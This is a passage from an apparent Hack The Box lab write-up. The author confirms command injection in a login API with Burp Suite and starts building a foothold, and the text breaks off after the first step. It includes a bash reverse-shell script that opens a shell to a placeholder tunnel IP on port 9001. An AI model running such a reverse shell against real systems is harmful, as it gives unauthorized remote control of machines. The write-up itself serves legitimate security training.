 First I tried some random host name and captured the request with burpsuite and sent that to the repeater tab. While I was testing with random credentials, when supplying an empty username, resulted in the following error.

<div data-full-width="false">

<figure><img src="../.gitbook/assets/Untitled 14 (2).png" alt=""><figcaption></figcaption></figure>

</div>

From this error we can devise that this API is vulnerable to command injection. So I tried some basic command to test it.

<figure><img src="../.gitbook/assets/Untitled 15 (1).png" alt=""><figcaption></figcaption></figure>

From the response, we can see the response of the id command and now its proved that the application is vulnerable to command injection. Now its time to use this vulnerability to gain access to the machine.

We know that, we can execute commands on the target machine with this vulnerability, so we can download a reverse shell on the target machine by sending command. For that first we need a reverse shell on our local machine. Create a file named `revshell.sh` and paste following code in that file. Don’t forget to replace the IP address.

```bash
#! /bin/bash

bash -i >& /dev/tcp/<Your_HTB_tunnel_IP>/9001 0>&1
```
